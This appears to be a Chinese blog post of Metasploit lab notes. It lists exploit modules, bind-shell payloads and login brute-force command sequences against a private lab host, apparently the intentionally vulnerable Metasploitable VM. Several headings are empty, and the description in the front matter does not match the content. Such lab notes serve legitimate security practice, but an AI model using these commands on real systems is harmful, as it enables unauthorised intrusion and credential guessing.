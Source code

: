 ```yaml
---
layout: post
title:  "msfconsole"
date:   2018-10-15 00:00:01 +0800
categories: linux
tags: msfconsole
description: ssh遇到问题集合
---
```

3.1	Vsftp 2.3.4 版本

Module：exploit/unix/ftp/vsftpd_234_backdoor

Payload：cmd/unix/interact

3.2	Web服务（80端口）

输入参数：

3.3	Php CGI注入

Module：exploit/multi/http/php_cgi_arg_injection

Payload：php/meterpreter/bind_tcp

3.4	SMB目录共享

139端口，445端口这两个都是smb类型的，是共享服务，首选我们需要知道它的共享目录有哪些

Module：auxiliary/scanner/smb/smb_enumusers

Module：auxiliary/admin/smb/samba_symlink_traversal

port 22 search ssh

use auxiliary/scanner/ssh/ssh_login

show options

set rhosts 192.168.190.130

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

run


3.5	Msfable后门

telnet 192.168.190.130

3.6	JAVA反序列化



3.7	Distccd服务远程命令(不建议)

Module：exploit/unix/misc/distcc_exec

Payload：cmd/unix/bind_perl

3.8	Postgresql弱密码

use auxiliary/scanner/postgres/postgres_login

3.9	VNC服务

port 5900 vnc

use auxiliary/scanner/vnc/vnc_login

3.10	IRC服务

port 6667 IRC

use exploit/unix/irc/unreal_ircd_3281_backdoor

3.11	Tomcat服务

use auxiliary/scanner/http/tomcat_mgr_login

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

set rport 8180


3.12	Drb服务

Module：exploit/linux/misc/drb_remote_codeexec

Payload：cmd/unix/bind_perl

3.13

redis

./redis-cli -p 30000 -h 192.168.190.130

info

3.14

echo envi|nc 192.168.190.130 2181
